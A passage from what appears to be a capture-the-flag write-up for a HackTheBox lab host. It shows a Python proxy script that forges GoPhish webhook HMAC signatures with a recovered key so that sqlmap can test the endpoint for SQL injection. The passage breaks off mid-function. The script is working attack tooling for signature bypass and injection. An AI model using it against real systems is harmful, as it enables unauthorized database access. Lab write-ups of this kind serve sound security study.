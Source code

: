 ![](images/Pasted%20image%2020250409230354.png)

Let's make a script to help us to check the sql-injection here.
```
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import requests
import hmac
import hashlib
# Configuration
TARGET_HOST = "28efa8f7df.whiterabbit.htb"
TARGET_URL = f"http://{TARGET_HOST}"
HMAC_KEY = b"3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
class GoPhishProxy(BaseHTTPRequestHandler):
    def do_POST(self):
        # Read the request body
        content_len = int(self.headers.get('Content-Length', 0))
        body = self.rfile.read(content_len)
        # Clean the path from possible full URLs or malformed inputs
        clean_path = urlparse(self.path).path
        full_url = f"{TARGET_URL}{clean_path}"
        # Calculate HMAC-SHA256 signature
        signature = hmac.new(HMAC_KEY, body, hashlib.sha256).hexdigest()
        # Prepare headers for forwarding
        forward_headers = {key: self.headers[key] for key in self.headers if key.lower() != 'host'}
        forward_headers['Host'] = TARGET_HOST
        forward_headers['x-gophish-signature'] = f"sha256={signature}"
        # Forward the request to the actual server
        try:
            response = requests.post(
                full_url,
                headers=forward_headers,
                data=body,
                allow_redirects=False,
                verify=False
            )
        except Exception as e:
            self.send_error(502, f"Proxy forwarding failed: {str(e)}")
            return
        # Respond back to sqlmap
        self.send_response(response.status_code)
```